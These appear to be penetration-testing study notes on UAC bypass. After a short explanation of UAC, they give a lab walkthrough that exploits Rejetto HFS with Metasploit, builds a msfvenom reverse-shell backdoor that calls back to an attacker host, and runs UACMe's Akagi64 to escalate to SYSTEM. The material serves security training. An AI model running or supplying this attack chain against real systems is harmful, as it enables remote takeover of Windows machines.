 Bypassing UAC With UACMe

#### UAC
- User Account Contorl is a Windows Security feature introduced in Windows Vista that is used to prevent unauthorized changes from being made to the operating system.
- UAC is used to ensure that changes to the operating system require approval from the adminitrator or a user account that is part of the local adminitrators group.
- A non-privileged user attempting to execute a program with elevated privileges will be prompted with the UAC credential prompt,whereas a privileged user will be prompted with a consent prompt.
- Attacks can bypass UAC in order to execute malicious executables with elevated privileges.
#### Bypassing UAC
- In order to successfully bypass UAC,we will need to have access to a user account that is a part of the local administrators group on the Windows target system.
- UAC allows a program to be executed with administrative privileges,consequently prompting the user for confirmation.
- There are multiple tools and technique that can be used to bypass UAC,however,the tool and technique used will depend on the version of Windows running on the target system.

#### Bypassing UAC with UACMe
- UACMe is an open source,robust privilge escalation tool developed by @hfire0x.It can be used to bypass Windows UAC by leveraging various techniques
- - Github: https://github.com/hfiref0x/UACME
- The UACMe github repository contains a very well documented list of methods that can be used to bypass UAC on multiple versions of Windows ranging from Windows 7 to Windows 10.
- It allows attackers to execute malicious payloads on a windows target with administrative/elevated privilges by abuisng the inbuit windows AuteElevated tool.
- The UACMe github repository has more than 60 exploits that can be used to bypass UAC  depending on the version of Windows running on the target.

#### in commnad prompt cmd
- net  users [ this will list all the users]
- net localgroup administrator [ this will list all the local members group of administrator ]
#### managing uac control
- in windows search for uac
- set the security level from GUI
#### Exploiting
- nmap 10.2.22.220 [ this will list all the services]
- service postgresql start
- msfconsole
- setg RHOSTS 10.2.22.220
- search rejetto [ as rejetto is running on the server]
- use exploit/windows/http/rejetto_hfs_exec 
- set everything requires
- this will give meterpreter session
- sysinfo [ for basic information ]
- pgrep explorer  [ for migrate to explorer session this will give us id ]
-  migrate 2448 [ 2448 found from previous command id and this will give us x64 bit windows ,we can check it again using sysinfo] 
- getuid [ for checking user ]
- getrivs [ trying to get privileges the current user have]
- shell [ for getting shell ]
- net users [ list all users ]
- net localgroup administrators [ this will show members of administrative group ]
- As our current user is part of administrative group we can use UAC for privilege escalation
- now back to meterpreter sessions
- now we need to create msfvenom paylaods so move in tab
- msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.5.2 LPORT= 1234 -f exe >backdoor.exe
- now open msfconsole in new tab
- use multi/handler
- set payload windows/meterpreter/reverse_tcp
- set LHOST 10.10.5.2
- set LPORT 1234
- now back to previous meterpeter sessions
- cd C:\\ [move to root folder\
- mkdir Temp [ create Temp directory ]
- uplaod backdoor.exe [ here backdoor.exe is msfvenom payload]
- upload /root/Desktop/tools/UACME/Akagi64.exe [ this will upload  uacme binaries into temp folder ]
- shell [ get a shell ]
- .\Akagi64.exe 23 C:\Temp\backdoor.exe [ here 23 is method from github module ]
- this will give us new meterpreter session in multi/handler
- getprivs  [ this will give us all the privileges it has ]
- ps [ list all the processes ]
- migrate 688 [ here 688 is process number,as we are privileged we can migrate to any process ]
- getuid [ this will show us NT AUTHORITY\SYSTEM ]
  

